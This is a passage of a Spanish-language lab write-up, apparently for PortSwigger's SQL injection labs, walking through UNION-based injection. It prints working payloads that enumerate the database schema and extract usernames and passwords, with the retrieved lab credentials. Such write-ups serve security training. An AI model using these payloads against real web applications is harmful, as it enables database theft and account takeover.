 ```mysql
' union select NULL,'qnUgvU',NULL-- -
```

Y hecho esto ya lo habriamos resuelto...

### Lab: SQL injection UNION attack, retrieving data from other tables

Aqui lo que necesitamos es obtener la informacion de la tabla de `usuarios` para ver las credenciales de todos los `usuarios` incluyendo el de `admin` para poder registrarnos con el mismo...

```mysql
' union select NULL,NULL-- -
```

Con esto sabemos que no es nada de `Oracle` ni nada parecido...

```mysql
' union select NULL,schema_name from information_schema.schemata-- -
```

Veremos que nos aparece una llamada `public` por lo que haremos lo siguiente...

```mysql
' union select NULL,table_name from information_schema.tables where table_schema='public'-- -
```

Y nos aparecera lo siguiente...

```
users
```

Por lo que haremos lo siguiente...

```mysql
' union select NULL,column_name from information_schema.columns where table_schema='public' and table_name='users'-- -
```

Aparecera lo siguiente...

```
|email|
|password|
|username|
```

```mysql
' union select NULL,username||':'||password from users-- -
```

```
|wiener:bwrtkxibjnvzvno51nfu|
|administrator:u7ve13tyofvcu2nvnq06|
carlos:yzoxtf8gpjq7uwyrnxsd
```

Con esto ya nos podremos registrar como `admin` en la pagina web...

### Lab: SQL injection UNION attack, retrieving multiple values in a single column
